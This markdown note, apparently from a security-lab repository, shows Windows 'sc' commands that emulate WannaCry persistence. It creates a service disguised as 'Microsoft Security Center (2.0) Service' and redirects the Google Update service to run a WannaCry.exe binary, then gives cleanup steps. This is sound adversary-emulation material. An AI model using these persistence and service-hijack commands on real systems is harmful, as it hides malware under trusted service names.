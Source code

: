 # Create or Modify System Process: Windows Service

- Code and compile program `Windows Service Application` - WannaCry.exe

- Create Service `(Administrator: Command Prompt)`
  * Create Service follow case attack WannaCry.
  ```powershell
  sc create "mssecsvc2.0" DisplayName= "Microsoft Security Center (2.0) Service" binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe" start= "auto"
  ```
  * Run service
  ```powershell
  sc start mssecsvc2.0
  sc stop mssecsvc2.0
  sc delete mssecsvc2.0
  ```

- Modify Service `(Administrator: Command Prompt)`
  * Modify google update service.
  ```powershell 
  sc config gupdate binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe"
  sc start gupdate
  ```
  * Restore default path google update.
  ```powershell 
  sc config gupdate binPath= "\"C:\Program Files (x86)\Google\Update\GoogleUpdate.exe\" /svc" >nul 2>&1 
  ```
